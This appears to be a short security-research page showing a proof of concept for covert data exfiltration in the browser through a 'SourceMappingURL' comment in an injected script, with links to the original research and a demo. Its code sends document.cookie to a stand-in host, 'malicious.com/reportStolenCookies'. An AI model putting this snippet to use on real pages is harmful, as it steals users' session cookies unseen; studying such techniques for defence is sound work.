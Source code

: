 # SourceMappingURL

### POC

```javascript
function  smap(url, data)  {
    const script = document.createElement('script');
    script.textContent =  `//# SourceMappingURL=${url}?data=${JSON.stringify(data)}`;
    document.head.appendChild(script);
    script.remove();
}

smap('https://malicious.com/reportStolenCookies',  {cookie: document.cookie});
```
### Resources

- [Original research and fully detailed explanation](https://weizman.github.io/page-js-anti-debug-1/) [[Gal Weizman](https://weizman.github.io/)]
- [Demo site](https://us-central1-smap-251411.cloudfunctions.net/index) [[Gal Weizman](https://weizman.github.io/)]

